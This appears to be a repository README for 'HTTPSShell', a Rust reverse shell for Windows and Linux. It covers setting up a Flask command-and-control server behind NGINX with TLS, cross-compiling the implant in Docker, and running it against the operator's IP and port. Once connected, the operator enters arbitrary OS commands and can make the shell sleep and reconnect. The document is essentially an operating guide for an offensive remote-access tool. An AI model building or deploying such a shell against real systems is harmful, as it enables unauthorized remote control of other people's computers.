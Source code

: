 # HTTPSShell

Tested docker build in kali.

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
mv app.py controlServer/
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```

Setup:
----
1. Run docker build in directory with Dockerfile:
```
docker build .
```
2. Run container (use -v flag to mount directories as desired):
```
docker run -di [imageID]
```
3. Enter container:
```
docker exec -ti [containerID] /bin/bash
```
4. From within container, Clone repo:
```
git clone https://github.com/Business1sg00d/RustHTTPSShell.git /opt/RustHTTPSShell
cd /opt/RustHTTPSShell
```
5. From within container, add windows support:
```
rustup target add x86_64-pc-windows-gnu
```
6. If you want to change the sleep time in seconds, go into the .rs files and change the following parameters:
```
alarmClock::standBy(int)
```
Replace the "int" with whatever time you want. This will tell the shell to sleep for those seconds. Command explanation further below.

Building from within container:
-----
When building for windows use:
```
cargo build --target x86_64-pc-windows-gnu --bin main_windows
```

For linux use:
```
cargo build
```

Binaries are in "target" directory from within project directory

Usage:
--
For both Windows and Linux version:
```
.\binary.exe [Your_Server_IP] [Your_Server_port}
./binary [Your_Server_IP] [Your_Server_port}
```

You should see a prompt in the flask server terminal. It expects the following options:
```
"Enter initialization option: "

Enter "1" to begin typing arbitrary OS commands such as "dir" or "powershell Get-Service".
Enter "2" to end the session and tell the shell to "sleep". After the time expires, the shell will attempt to reconnect to your server.
```

When entering "1" to get the command, you should see the following:
```
Enter command: 
```

You can also enter "2" in this "Enter command: " state that will sleep like explained above.
